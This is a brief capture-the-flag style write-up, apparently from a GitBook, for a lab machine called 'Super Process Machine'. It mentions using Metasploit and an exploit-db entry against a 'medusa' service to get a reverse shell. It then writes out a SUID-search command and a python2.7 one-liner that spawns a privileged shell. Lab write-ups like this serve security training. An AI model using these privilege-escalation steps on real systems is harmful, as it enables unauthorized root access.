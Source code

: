 # Super Process Machine

Start with scan IP of machine

![image.png](<../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

after search for `medusa` service we found CVE https://www.exploit-db.com/exploits/42779 which we can use Metasploit to exploit this service

<figure><img src="../../.gitbook/assets/image 1 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we success to take a reverse shell on this machine

now let’s make a privilege escalation which we started to search on process have SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image 2 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

now let’s search on python 2.7 exploit

<figure><img src="../../.gitbook/assets/image 3 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

<figure><img src="../../.gitbook/assets/image 4 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
